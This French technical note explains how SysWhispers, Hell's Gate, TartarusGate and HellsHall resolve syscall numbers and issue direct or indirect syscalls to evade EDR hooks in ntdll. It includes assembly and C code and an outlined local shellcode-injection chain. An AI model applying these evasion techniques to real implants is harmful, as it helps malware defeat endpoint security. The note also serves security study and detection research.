


# SysWhispers et Hell's Gate

Contourner les hooks userland posés sur les syscalls par les solutions de sécurité repose sur l'exécution directe ou indirecte d'appels système, sans passer par les fonctions hookées de `ntdll.dll`. Cette note couvre les deux grandes familles d'outils qui automatisent ce contournement : la lignée SysWhispers et la technique Hell's Gate, ainsi que ses évolutions jusqu'aux syscalls indirects de HellsHall. Le socle théorique des SSN et de la structure des syscalls est dans [[Introduction aux syscalls]].

## SysWhispers

SysWhispers génère des implants (un en-tête et un fichier assembleur) pour réaliser des **syscalls directs** en 64 bits. Il supporte les syscalls depuis Windows XP jusqu'à Windows 10 19042 (20H2). La prise en charge est limitée, car le SSN change à chaque mise à jour de Windows : une implémentation valable sur Windows 10 1903 peut échouer sur 1909.

Le script Python de génération code en dur, pour chaque version de Windows, le SSN issu de la Windows X86-64 System Call Table. Les fonctions assembleur commencent par lire la version de Windows dans le PEB, puis sautent vers le SSN correct.

```asm
NtMapViewOfSection PROC
    mov rax, gs:[60h]                 ; PEB dans RAX
NtMapViewOfSection_Check_X_X_XXXX:
    cmp dword ptr [rax+118h], 10      ; OSMajorVersion
    je  NtMapViewOfSection_Check_10_0_XXXX
    jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_Check_10_0_XXXX:
    cmp dword ptr [rax+120h], 17763   ; OSBuildNumber (1809)
    je  NtMapViewOfSection_SystemCall_10_0_17763
    jmp NtMapViewOfSection_SystemCall_Unknown
NtMapViewOfSection_SystemCall_10_0_17763:
    mov eax, 0028h                    ; SSN codé en dur pour cette version
    jmp NtMapViewOfSection_Epilogue
NtMapViewOfSection_SystemCall_Unknown:
    ret
NtMapViewOfSection_Epilogue:
    mov r10, rcx
    syscall
    ret
NtMapViewOfSection ENDP
```

Trois membres du PEB servent à identifier le système : `OSBuildNumber` (offset `0x120`), `OSMajorVersion` (`0x118`) et `OSMinorVersion` (`0x11c`). La logique équivaut à une cascade de `if` / `else if`. Pour Windows 10 1809 : la version majeure vaut 10, on saute vers la vérification du build, 17763 mène au label qui fixe `eax` à `0028h`, puis l'épilogue exécute le syscall.

## SysWhispers2

SysWhispers2 abandonne la table de SSN codée en dur. L'utilisateur n'a plus à préciser les versions de Windows supportées, car les SSN sont résolus au runtime par la méthode du **tri par adresse d'appel système** (*sorting by system call address*). Les stubs en deviennent plus petits.

Le principe : on énumère tous les syscalls préfixés `Zw`, on conserve leurs adresses dans un tableau, on trie ce tableau par ordre croissant, et **l'indice d'un syscall dans le tableau trié devient son SSN** (les SSN étant eux-mêmes contigus et croissants en mémoire).

L'implémentation repose sur `SW2_PopulateSyscallList`, qui récupère la base de `ntdll` et son répertoire d'export, puis calcule les RVA des fonctions exportées (adresses, noms, ordinaux) — même travail que dans [[Parsing des en-têtes PE]] et [[Dissimulation de l'IAT]]. Les noms préfixés `Zw` sont hachés et stockés avec leurs adresses, puis triés. `SW2_GetSyscallNumber` prend le hash du syscall cible et renvoie l'indice correspondant, donc le SSN.

```asm
EXTERN SW2_GetSyscallNumber: PROC

WhisperMain PROC
    pop rax
    mov [rsp+ 8], rcx              ; Sauvegarde des registres
    mov [rsp+16], rdx
    mov [rsp+24], r8
    mov [rsp+32], r9
    sub rsp, 28h
    mov ecx, currentHash
    call SW2_GetSyscallNumber      ; renvoie le SSN dans eax
    add rsp, 28h
    mov rcx, [rsp+ 8]              ; Restauration des registres
    mov rdx, [rsp+16]
    mov r8,  [rsp+24]
    mov r9,  [rsp+32]
    mov r10, rcx
    syscall
    ret
WhisperMain ENDP

NtMapViewOfSection PROC
    mov currentHash, 060C9AE95h    ; hash de ZwMapViewOfSection
    call WhisperMain
NtMapViewOfSection ENDP
```

`060C9AE95h` est le hash de la chaîne `ZwMapViewOfSection`. L'appel de `NtMapViewOfSection` charge ce hash puis appelle `WhisperMain`, qui invoque `SW2_GetSyscallNumber` ; l'instruction `mov eax, SSN` est absente car la valeur renvoyée par la fonction se trouve déjà dans `EAX`.

## SysWhispers3

L'instruction `syscall` ne devrait s'exécuter que depuis l'espace d'adressage de `ntdll.dll`. Or SysWhispers et SysWhispers2 l'incluent dans le binaire : un `syscall` émis ailleurs est un indicateur de compromission. SysWhispers3 corrige cela en recherchant l'instruction `syscall` dans `ntdll.dll` et en y sautant par un `jmp` : c'est la technique des **syscalls indirects**.

L'option `jumper_randomized` va plus loin : le saut vise l'instruction `syscall` d'une **fonction aléatoire**, différente du syscall appelé. `NtAllocateVirtualMemory` peut ainsi sauter sur l'instruction `syscall` de `NtTestAlert`.

```c
EXTERN_C DWORD SW3_GetSyscallNumber(DWORD FunctionHash) {
    if (!SW3_PopulateSyscallList()) return -1;
    for (DWORD i = 0; i < SW3_SyscallList.Count; i++)
        if (FunctionHash == SW3_SyscallList.Entries[i].Hash)
            return i;               // l'indice est le SSN
    return -1;
}

EXTERN_C PVOID SW3_GetRandomSyscallAddress(DWORD FunctionHash) {
    if (!SW3_PopulateSyscallList()) return NULL;
    DWORD index = ((DWORD) rand()) % SW3_SyscallList.Count;
    while (FunctionHash == SW3_SyscallList.Entries[index].Hash)
        index = ((DWORD) rand()) % SW3_SyscallList.Count;
    return SW3_SyscallList.Entries[index].SyscallAddress;
}
```

Le stub assembleur sauvegarde les registres, appelle `SW3_GetRandomSyscallAddress` (dont le résultat dans `RAX` est conservé dans `r15`), appelle `SW3_GetSyscallNumber` pour obtenir le SSN dans `EAX`, restaure les registres, puis fait `jmp r15` vers l'instruction `syscall` choisie.

## Hell's Gate

Hell's Gate est une technique de syscalls directs qui, au lieu de coder en dur ou de trier les SSN, **extrait le SSN des opcodes du syscall lui-même** en lisant `ntdll.dll`. Elle repose sur deux structures.

```c
typedef struct _VX_TABLE_ENTRY {
    PVOID   pAddress;     // adresse de la fonction syscall
    DWORD64 dwHash;       // hash du nom du syscall
    WORD    wSystemCall;  // SSN du syscall
} VX_TABLE_ENTRY, *PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
    VX_TABLE_ENTRY NtAllocateVirtualMemory;
    VX_TABLE_ENTRY NtProtectVirtualMemory;
    VX_TABLE_ENTRY NtCreateThreadEx;
    VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, *PVX_TABLE;
```

La fonction principale récupère le TEB via `RtlGetThreadEnvironmentBlock` (le PEB s'y trouve), obtient la base de `ntdll.dll` et son répertoire d'export par parsing des en-têtes DOS et NT. Pour chaque syscall, elle renseigne `dwHash` puis appelle `GetVxTableEntry`.

`GetVxTableEntry` procède en deux temps.

1. Parcours des exports : pour chaque nom, un hash `djb2` est comparé à `dwHash`. En cas de correspondance, l'adresse du syscall est stockée dans `pAddress`.
2. Alors seulement vient l'astuce : une boucle décrémente l'adresse octet par octet à la recherche de la séquence `0x4C, 0x8B, 0xD1, 0xB8`, opcodes de `mov r10, rcx` puis `mov rcx, ssn`. Si le syscall est hooké, ces octets sont plus loin dans la fonction et la boucle les atteint en sautant par-dessus le hook.

```c
WORD cw = 0;
while (TRUE) {
    // on est allé trop loin : instruction 'syscall'
    if (*((PBYTE)pFunctionAddress + cw) == 0x0F && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
        return FALSE;
    // on est allé trop loin : instruction 'ret'
    if (*((PBYTE)pFunctionAddress + cw) == 0xC3)
        return FALSE;

    // prologue attendu : MOV R10, RCX puis MOV RCX, <ssn>
    if (*((PBYTE)pFunctionAddress + cw)     == 0x4C
     && *((PBYTE)pFunctionAddress + 1 + cw) == 0x8B
     && *((PBYTE)pFunctionAddress + 2 + cw) == 0xD1
     && *((PBYTE)pFunctionAddress + 3 + cw) == 0xB8
     && *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
     && *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
        BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
        BYTE low  = *((PBYTE)pFunctionAddress + 4 + cw);
        pVxTableEntry->wSystemCall = (high << 8) | low; // SSN reconstruit
        break;
    }
    cw++;
}
```

Les deux tests de frontière (`syscall` et `ret`) empêchent la recherche de dériver et de récupérer le SSN d'un autre syscall. Sur `NtProtectVirtualMemory`, `mov eax,50` produit les octets `B8 50 00 00 00` : `low` vaut `0x50` (offset 4) et `high` vaut `0x00` (offset 5), soit un SSN de `(0x00 << 8) | 0x50` = `0x50`, correct.

L'appel se fait ensuite via deux fonctions assembleur, `HellsGate` (qui enregistre le SSN dans la variable globale `wSystemCall`) et `HellDescent` (qui exécute le syscall) :

```asm
.data
    wSystemCall DWORD 000h

.code
    HellsGate PROC
        mov wSystemCall, 000h
        mov wSystemCall, ecx   ; ecx contient le SSN
        ret
    HellsGate ENDP

    HellDescent PROC
        mov r10, rcx
        mov eax, wSystemCall
        syscall
        ret
    HellDescent ENDP
```

## Mise à jour de Hell's Gate et TartarusGate

La version revisitée de Hell's Gate remplace plusieurs briques pour réduire la signature et utiliser l'approche **TartarusGate** de résolution des SSN.

### Empreinte de chaînes CRC32

L'algorithme `djb2` est remplacé par un `crc32h` (contrôle de redondance cyclique), moins susceptible d'être signé, appelé via une macro :

```c
unsigned int crc32h(char* message) {
    unsigned int crc = 0xFFFFFFFF, byte, c;
    const unsigned int g0 = SEED, g1 = g0 >> 1, g2 = g0 >> 2,
        g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
        g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;
    int i = 0;
    while ((byte = message[i]) != 0) {
        crc = crc ^ byte;
        c = ((crc << 31 >> 31) & g7) ^ (((crc << 30 >> 31) & g6)) ^
            ((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
            ((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
            ((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
        crc = ((unsigned)crc >> 8) ^ c;
        i++;
    }
    return ~crc;
}

#define HASH(API) crc32h((char*)API)
```

### Configuration de ntdll mise en cache

`GetVxTableEntry` traînait des paramètres inutiles à son but (`pModuleBase`, `pImageExportDirectory`). Une structure `NTDLL_CONFIG` les met en cache une fois pour toutes, remplie par `InitNtdllConfigStructure` :

```c
typedef struct _NTDLL_CONFIG {
    PDWORD    pdwArrayOfAddresses; // adresses des fonctions exportées de ntdll
    PDWORD    pdwArrayOfNames;     // noms des fonctions exportées
    PWORD     pwArrayOfOrdinals;   // ordinaux des fonctions exportées
    DWORD     dwNumberOfNames;     // nombre de fonctions exportées
    ULONG_PTR uModule;             // adresse de base de ntdll
} NTDLL_CONFIG, *PNTDLL_CONFIG;

NTDLL_CONFIG g_NtdllConf = { 0 };
```

`InitNtdllConfigStructure` lit le PEB via `__readgsqword(0x60)`, vérifie la version majeure, saute l'image locale pour atteindre l'entrée de `ntdll` dans la liste des modules chargés, récupère sa base, puis parse les en-têtes DOS et NT et le répertoire d'export pour remplir `g_NtdllConf`.

### FetchNtSyscall et NT_SYSCALL

`GetVxTableEntry` devient `FetchNtSyscall` et travaille sur une structure `NT_SYSCALL` :

```c
typedef struct _NT_SYSCALL {
    DWORD dwSSn;                // numéro de syscall
    DWORD dwSyscallHash;        // hash du nom du syscall
    PVOID pSyscallAddress;      // adresse du syscall
} NT_SYSCALL, *PNT_SYSCALL;
```

`FetchNtSyscall` initialise `g_NtdllConf` si nécessaire, parcourt les exports et compare les hashs ; sur correspondance, il enregistre l'adresse puis cherche le SSN. Il gère ensuite **deux scénarios de hooking** selon l'octet `0xE9` (saut) rencontré à l'offset 0 ou à l'offset 3.

### TartarusGate : le SSN par voisinage

Quand un syscall est hooké, ses opcodes de prologue ne sont plus présents. TartarusGate exploite alors la contiguïté des SSN : il cherche un **syscall voisin non hooké** et en déduit le SSN de la cible.

- En remontant : `SSN de la cible = SSN du voisin supérieur + idx`.
- En descendant : `SSN de la cible = SSN du voisin inférieur - idx`.

```c
#define RANGE 255   // nombre maximal de syscalls à parcourir
#define UP    32    // taille d'un syscall, recherche vers le haut
#define DOWN  -32   // recherche vers le bas

if (*((PBYTE)pFuncAddress) == 0xE9) {              // hook au début
    for (WORD idx = 1; idx <= RANGE; idx++) {
        if (/* prologue trouvé en DESCENDANT */) {
            pNtSys->dwSSn = (high << 8) | low - idx;
            break;
        }
        if (/* prologue trouvé en REMONTANT */) {
            pNtSys->dwSSn = (high << 8) | low + idx;
            break;
        }
    }
}
```

Concrètement, si `NtProtectVirtualMemory` (SSN `0x50`) est hooké et que le syscall juste en dessous est sain, on lit `0x51`, et `0x51 - 1 = 0x50`. La recherche peut s'étendre à plusieurs voisins.



### Fonctions assembleur SetSSn et RunSyscall

`HellsGate` et `HellDescent` deviennent `SetSSn` et `RunSyscall`, enrichies d'instructions inutiles à l'exécution mais qui brouillent la lecture :

```asm
.data
    wSystemCall DWORD 0000h

.code
    SetSSn PROC
        xor eax, eax
        mov wSystemCall, eax    ; remise à zéro
        mov eax, ecx            ; eax = ssn
        mov r8d, eax
        mov wSystemCall, r8d    ; wSystemCall = ssn
        ret
    SetSSn ENDP

    RunSyscall PROC
        xor r10, r10
        mov rax, rcx
        mov r10, rax            ; r10 = rcx (premier paramètre)
        mov eax, wSystemCall    ; eax = ssn
        jmp Run
        xor eax, eax            ; jamais exécuté
        xor rcx, rcx            ; jamais exécuté
    Run:
        syscall
        ret
    RunSyscall ENDP
```

### Assemblage final

Les syscalls utilisés sont regroupés dans une globale `NTAPI_FUNC g_Nt`, remplie par `InitializeNtSyscalls` (un appel `FetchNtSyscall` par syscall). Un petit programme *Hasher* imprime les valeurs `crc32h` de chaque nom (`NtAllocateVirtualMemory_CRC32`, etc.). La fonction `main` enchaîne ensuite une injection locale : `NtAllocateVirtualMemory` alloue, `memcpy` copie le payload, `NtProtectVirtualMemory` passe la zone en `PAGE_EXECUTE_READ`, `NtCreateThreadEx` crée le thread et `NtWaitForSingleObject` attend son exécution — chaque appel précédé de `SetSSn`.

Démonstration parlante : sans TartarusGate, l'injection de `MalDevEdr.dll` (qui hooke `NtProtectVirtualMemory`) fait échouer la résolution du SSN. Avec TartarusGate, le SSN est retrouvé via le voisin (`0x51 - 1 = 0x50`).

## HellsHall : les syscalls indirects

La version précédente reste vulnérable à la détection des **syscalls directs** : quand le flux franchit la frontière user/kernel, des callbacks se déclenchent. Un EDR peut utiliser `NtSetProcessInformation` avec le drapeau `ProcessInstrumentationCallback` pour exécuter une fonction à chaque retour du noyau vers le user mode, et vérifier si le `syscall` provenait de `ntdll.dll`. S'il vient d'ailleurs, il est signalé.

HellsHall remplace donc le `syscall` local par un `jmp` vers une instruction `syscall` située dans `ntdll.dll`. Le callback voit alors un syscall émis depuis `ntdll`, jugé légitime.



`NT_SYSCALL` gagne un membre `pSyscallInstAddress`, adresse d'une instruction `syscall` arbitraire dans `ntdll`. `FetchNtSyscall` cherche cette instruction en ajoutant `0xFF` (225) octets à l'adresse du syscall, puis balaie jusqu'à `RANGE` (225) octets à la recherche des opcodes `0x0F 0x05` :

```c
if (!pNtSys->pSyscallAddress)
    return FALSE;

// viser un emplacement situé 0xFF octets plus loin
ULONG_PTR uFuncAddress = (ULONG_PTR)pNtSys->pSyscallAddress + 0xFF;

for (DWORD z = 0, x = 1; z <= RANGE; z++, x++) {
    if (*((PBYTE)uFuncAddress + z) == 0x0F && *((PBYTE)uFuncAddress + x) == 0x05) {
        pNtSys->pSyscallInstAddress = ((ULONG_PTR)uFuncAddress + z);
        break;
    }
}
```

La valeur 225 est arbitraire ; aucun lien n'est requis entre le syscall appelé et celui dont l'instruction `syscall` est empruntée.

Les fonctions assembleur évoluent : `SetSSn` prend désormais deux arguments, le SSN et l'adresse de l'instruction, et `RunSyscall` saute vers cette adresse au lieu d'exécuter `syscall` en local.

```asm
.data
    wSystemCall       DWORD 0h
    qSyscallInsAdress QWORD 0h

.code
    SetSSn PROC
        mov wSystemCall, 0h
        mov qSyscallInsAdress, 0h
        mov wSystemCall, ecx        ; ssn
        mov qSyscallInsAdress, rdx  ; adresse de l'instruction 'syscall'
        ret
    SetSSn ENDP

    RunSyscall PROC
        mov r10, rcx
        mov eax, wSystemCall
        jmp qword ptr [qSyscallInsAdress]   ; jmp vers 'syscall' dans ntdll
        ret
    RunSyscall ENDP
```

Pour alléger l'appel, une macro encapsule les deux valeurs extraites de la structure :

```c
#define SET_SYSCALL(NtSys)(SetSSn((DWORD)NtSys.dwSSn,(PVOID)NtSys.pSyscallInstAddress))
```

`SET_SYSCALL` accepte une structure `NT_SYSCALL` et appelle `SetSSn` avec son SSN et son adresse d'instruction. Le déroulé final (`InitializeNtSyscalls` puis `main`) reste identique à celui de la version TartarusGate, à ceci près que chaque appel utilise `SET_SYSCALL` au lieu de `SetSSn`. En debug, on vérifie que `NtAllocateVirtualMemory` et `NtProtectVirtualMemory` empruntent bien l'instruction `syscall` d'une autre fonction (`NtReleaseMutant`), exécutée depuis `ntdll.dll`.

## Synthèse

| Technique | Résolution du SSN | Instruction syscall | Discrétion |
|---|---|---|---|
| SysWhispers | Codé en dur par version de Windows | Locale au binaire | Faible (syscall direct) |
| SysWhispers2 | Tri par adresse d'appel système | Locale au binaire | Faible (syscall direct) |
| SysWhispers3 | Tri par adresse, hash | `jmp` vers `ntdll` | Bonne (syscall indirect) |
| Hell's Gate | Extraction des opcodes du syscall | Locale au binaire | Faible, échoue sur hook |
| TartarusGate | Voisin non hooké | Locale au binaire | Faible, robuste au hook |
| HellsHall | Voisin non hooké (héritage) | `jmp` vers `ntdll` | Bonne (syscall indirect) |

Pour maximiser la discrétion, la recommandation est d'utiliser HellsHall et d'y adjoindre un unhooking de `ntdll.dll`, afin que les fonctions hookées redeviennent opérationnelles. Les outils `SysWhispers3` et les variantes publiques de Hell's Gate sont plus légers en fonctionnalités que l'implémentation complète décrite ici. La mise en œuvre pratique de ces syscalls dans des chaînes d'injection est traitée dans [[Réimplémentation des injections via syscalls]].
